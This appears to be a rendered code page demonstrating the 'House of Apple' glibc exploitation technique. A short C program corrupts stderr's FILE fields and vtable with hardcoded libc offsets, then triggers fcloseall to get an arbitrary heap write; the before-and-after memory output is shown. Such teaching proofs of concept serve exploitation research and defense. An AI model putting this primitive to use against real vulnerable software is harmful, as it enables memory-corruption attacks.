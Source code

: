 ```cpp
#include<stdio.h>
#include<stdlib.h>
#include<stdint.h>
#include<unistd.h>
#include <string.h>
 
void main()
{
    setbuf(stdout, 0);
    setbuf(stdin, 0);
    setvbuf(stderr, 0, 2, 0);
    puts("[*] allocate a 0x100 chunk");
    size_t *p1 = malloc(0xf0);
    size_t *tmp = p1;
    size_t old_value = 0x1122334455667788;
    for (size_t i = 0; i < 0x100 / 8; i++)
    {
        p1[i] = old_value;
    }
    puts("===========================old value=======================");
    for (size_t i = 0; i < 4; i++)
    {
        printf("[%p]: 0x%016lx  0x%016lx\n", tmp, tmp[0], tmp[1]);
        tmp += 2;
    }
    puts("===========================old value=======================");
 
    size_t puts_addr = (size_t)&puts;
    printf("[*] puts address: %p\n", (void *)puts_addr);
    size_t stderr_write_ptr_addr = puts_addr + 0x1997b8;
    printf("[*] stderr->_IO_write_ptr address: %p\n", (void *)stderr_write_ptr_addr);
    size_t stderr_flags2_addr = puts_addr + 0x199804;
    printf("[*] stderr->_flags2 address: %p\n", (void *)stderr_flags2_addr);
    size_t stderr_wide_data_addr = puts_addr + 0x199830;
    printf("[*] stderr->_wide_data address: %p\n", (void *)stderr_wide_data_addr);
    size_t sdterr_vtable_addr = puts_addr + 0x199868;
    printf("[*] stderr->vtable address: %p\n", (void *)sdterr_vtable_addr);
    size_t _IO_wstrn_jumps_addr = puts_addr + 0x194ed0;
    printf("[*] _IO_wstrn_jumps address: %p\n", (void *)_IO_wstrn_jumps_addr);
 
    puts("[+] step 1: change stderr->_IO_write_ptr to -1");
    *(size_t *)stderr_write_ptr_addr = (size_t)-1;
 
    puts("[+] step 2: change stderr->_flags2 to 8");
    *(size_t *)stderr_flags2_addr = 8;
 
    puts("[+] step 3: replace stderr->_wide_data with the allocated chunk");
    *(size_t *)stderr_wide_data_addr = (size_t)p1;
 
    puts("[+] step 4: replace stderr->vtable with _IO_wstrn_jumps");
    *(size_t *)sdterr_vtable_addr = (size_t)_IO_wstrn_jumps_addr;
 
    puts("[+] step 5: call fcloseall and trigger house of apple");
    fcloseall();
    tmp = p1;
    puts("===========================new value=======================");
    for (size_t i = 0; i < 4; i++)
    {
        printf("[%p]: 0x%016lx  0x%016lx\n", tmp, tmp[0], tmp[1]);
        tmp += 2;
    }
    puts("===========================new value=======================");
}
```

[0x55cfb956d2a0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2b0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2c0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2d0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2a0]: 0x00007f648ba40770  0x00007f648ba40870
[0x55cfb956d2b0]: 0x00007f648ba40770  0x00007f648ba40770
[0x55cfb956d2c0]: 0x00007f648ba40770  0x00007f648ba40770
[0x55cfb956d2d0]: 0x00007f648ba40770  0x00007f648ba40870